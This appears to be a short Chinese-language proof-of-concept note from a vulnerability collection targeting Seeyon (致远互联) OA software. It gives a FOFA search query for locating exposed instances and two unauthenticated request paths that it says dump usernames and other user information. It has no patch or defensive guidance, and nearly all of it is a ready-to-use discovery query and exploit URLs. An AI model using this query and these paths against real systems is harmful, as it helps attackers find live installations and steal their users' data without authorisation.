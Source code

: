 ## 资产收集：
fofa：body="yyoa" && app="致远互联-OA"
![](img/ksoa.png)
## POC：
等到用户名等用户信息：  
`/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0`  
或者  
`/yyoa/assess/js/initDataAssess.jsp`